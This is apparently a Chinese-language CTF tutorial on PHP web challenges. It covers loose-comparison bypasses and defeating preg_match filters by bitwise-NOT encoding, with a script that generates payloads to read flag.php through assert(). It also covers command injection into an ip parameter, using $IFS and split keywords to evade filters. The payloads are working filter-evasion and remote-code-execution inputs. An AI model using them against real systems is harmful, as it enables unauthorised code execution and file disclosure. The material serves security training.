

# PHP弱类型&异或取反&序列化&RCE

## PHP-弱类型对比绕过测试

`===`在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。

`==`在进行比较的时候，会先将字符串类型转化成相同类型，再比较。

例如：

`"admin"==0`比较的时候，会将`admin`转化成数值，强制转化，由于`admin`是字符串，转化的结果是`0`自然和`0`相等。

`"1admin"==1`比较的时候会将`1admin`转化成数值，结果为1。

而`"admin1"==1`却等于错误，也就是`"admin1"`被转化成了`0`, 一个字符串当作一个数值来取值，其结果和类型如下:

1. 如果该字符串没有包含`.`，`e`，`E`并且其数值在整形的范围之内该字符串被当作`int`来取值

2. 其他所有情况下都被作为`float`来取值，该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0。

```php
<?php
var_dump("admin"==0); // true
var_dump("1admin"==1); // true
var_dump("admin1"==1); // flase
var_dump("admin1"==0); // true
var_dump("0e13456"=="0e112233"); // true
```

CTF真题：[矛盾 - Bugku CTF](https://ctf.bugku.com/challenges/detail/id/72.html)

`is_numeric()`函数用于检测变量是否为数字或数字字符串，是则返回True。

思路：构造一个不是数值类型的字符串，但是他转化为数值类型后的值为1。


构造payload：`http://ip:端口/?num=1x`。

也可以添加换行符：`http://ip:端口/?num=1%0a`。


## PHP-正则preg_match绕过

```php
int preg_match (string $pattern , string $subject [, array &$matches [, int $flags = 0 [, int $offset = 0 ]]] )
```

搜索`subject`与`pattern`给定的正则表达式的一个匹配。

`$pattern`：要搜索的模式，字符串形式，正则表达式。

`$subject`：输入字符串。

`$matches`：如果提供了参数`matches`，它将被填充为搜索结果。`$matches[0]`将包含完整模式匹配到的文本， `$matches[1]`将包含第一个捕获子组匹配到的文本，以此类推。

`$offset`：通常，搜索从目标字符串的开始位置开始。

返回 pattern 的匹配次数。 它的值将是 0 次（不匹配）或 1 次。

注意：preg_match()在第一次匹配后 将会停止搜索。preg_match_all()不同于此，它会一直搜索subject 直到到达结尾。

绕过方法：

1. 异或（可以使用各种特殊字符的异或构造出字母和数字）
2. 取反（类似于异或构造出字符串和数字）
3. 数组
4. PCRE
5. 换行符（%0a）

### CTF

2020-第五空间智能安全大赛-Web-hate-php

先对code过滤关键字：`/i`是不区分大小写。

`get_defined_functions()`返回一个二维数组，包括内置函数和用户定义的函数（就是获取php的常见函数）

遍历整个黑名单，如果在code匹配到php的常见函数，就报错。

绕过就可以进行命令执行读取。

```php
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if (preg_match('/(f|l|a|g|/.|p|h|//|;|/"|/'|/`|/||/[|/]|/_|=)/i',$code)) {
        die('You are too good for me');
    }
    $blacklist = get_defined_functions()['internal'];
    foreach ($blacklist as $blackitem) {
        if (preg_match ('/' . $blackitem . '/im', $code)) {
            die('You deserve better');
        }
    }
    assert($code);
}
```

在线运行`$blacklist = get_defined_functions()['internal'];`。


总结：这里存在两个匹配

1. 过滤关键字和特殊字符，绕过思路：取反绕过。
2. 过滤函数

因此即使找到了某个函数恰好可以绕过第一个，也过不去第二个过滤。这样的题目，一般的思路就是利用异或或者取反来绕过。这里用取反来绕过。

首先打印当前目录下的文件：`print_r(scandir('.'))` 


读取文件的payload为：

```php
<?php
echo urlencode(~'print_r');  //urlencode url编码  ~ 取反
echo "/n";
echo urlencode(~'scandir');
echo "/n";
echo urlencode(~'.');
?> // 生成payload：(~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)((~%D1)))
```


发现flag.php文件，读取flag.php文件。


```php
<?php
echo urlencode(~'highlight_file');
echo "/n";
echo urlencode(~'flag.php');
?>
 // 生成payload：/?code=(~%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)((~%99%93%9E%98%D1%8F%97%8F))
```

成功拿到flag。


总结

取反和异或的选择要看函数的正则表达式的格式。

取反的数字比较多，异或的选择范围更广。

但是如果禁用数字和`^`就需要换其他的方法。

## PHP-命令执行RCE变异绕过

知识点：

存在三种绕过方式（本质都是$IFS）：

注意：`$IFS`是Linux的系统命令。

```bash
空格绕过方式：
$IFS
${IFS}
$IFS$数字
<
<>
```

场景打开如下，猜测有命令执行漏洞。


写入自己IP，发现是一个系统命令执行。


使用管道符，成功列出当前目录下文件，发现flag.php文件。


尝试读取flag文件，失败，发现过滤了空格。



使用$IFS替换space：`/?ip=127.0.0.1|cat$IFSflag.php`，发现过滤flag的关键字。


执行：

```bash
/?ip=127.0.0.1;cat$IFS`ls`
cat$IFS`ls` # 是列出当前目录下的所有文件内容
```

查看网页源代码。


构造payload，使用`$IFS$2`代替空格，将`flag`拆开为`a=g;fla$a`。

```bash
/?ip=127.0.0.1;a=g;cat$IFS$2fla$a.php
```

